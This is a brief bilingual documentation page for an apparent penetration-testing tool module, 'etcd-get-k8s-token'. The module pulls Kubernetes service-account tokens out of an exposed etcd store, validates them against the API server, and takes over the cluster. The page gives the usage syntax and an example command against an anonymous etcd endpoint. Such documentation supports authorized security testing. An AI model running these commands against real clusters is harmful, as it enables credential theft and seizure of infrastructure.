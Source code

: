 ```yaml
---
title: etcd接管K8s api-server
author: 404tk
date: 2022-06-22
category: Kubernetes
layout: post
---
```


Exploit: etcd-get-k8s-token
-------------
List key and value pairs under the /registry/secrets/kube-system/ in etcd service, regular extract plaintext service-account-token, requests the default port 6443 'K8s API-server' service to verify the validity of the token and take over the cluster.  

遍历`etcd`中`/registry/secrets/kube-system/`前缀下的key、value对，正则提取明文service-account-token，对默认6443端口`K8s api-server`服务进行请求，验证token有效性，可进一步接管集群。  

Usage
-------------
```shell
./cdk run etcd-get-k8s-token (anonymous|default) <endpoint> <cert> <cert_key> <ca>
```  

Example
-------------
```shell
./cdk run etcd-get-k8s-token anonymous http://172.16.61.10:2379
```  
![](/assets/images/etcd_unauth.png)